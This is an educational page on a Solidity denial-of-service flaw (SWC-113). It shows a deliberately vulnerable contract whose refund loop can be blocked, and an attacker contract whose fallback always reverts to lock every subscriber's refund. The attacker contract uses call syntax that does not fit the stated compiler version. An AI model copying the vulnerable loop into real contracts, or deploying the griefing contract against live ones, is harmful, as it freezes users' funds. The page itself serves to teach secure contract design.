 DoS Attack Contract
===================

This set of contracts shows how a contract may be susceptible to a denial of service attack by an unexpected revert ([SWC-113](https://swcregistry.io/docs/SWC-113){target=_blank}).

The `VulnerableContract` loops over the subscribers array, making a transfer to each address. This is dangerous because when the `refundFees()` function is called and the `VulnerableContract` attempts to send funds to the `MaliciousContract`, the `MaliciousContract` fallback function is called, which stops execution and reverts. This transaction will never succeed and `refundFees()` will never successfully execute, preventing any subscribers from getting their subscription fee back.

```
pragma solidity 0.8.4;

// Example DenialOfService Attack  
contract VulnerableContract {    
  address owner = msg.sender;    
  address payable[] public subscribers;    
  uint FEE\_COST = 1 ether;          
  
  function subscribe() public payable {        
    require(msg.value == FEE\_COST, "Insufficient msg.value");        
    subscribers.push(msg.sender);    
  }          
  
  function refundFees() public {        
    require(msg.sender == owner, "msg.sender should be owner");        
    for(uint i = subscribers.length; i > 0; i--) {            
      subscribers[i - 1].transfer(FEE\_COST);            
      subscribers.pop();        
    }
  }          
  
  function getBalance() view public returns(uint) {        
    return address(this).balance;    
  }          
  
  // Auxiliar function for demo. It wouldn't be present in a vulnerable contract    
  function removeLastSubscriber() public {        
    subscribers.pop();    
  }
  
}  
  
contract MaliciousContract {    
  VulnerableContract vulnerableContract = VulnerableContract(0x5E72914535f202659083Db3a02C984188Fa26e9f);          
  
  function subscribe() public payable {        
    vulnerableContract.subscribe.value(msg.value)();       
  }          
  
  fallback() external payable {        
    require(false);    
  }
}
```
 
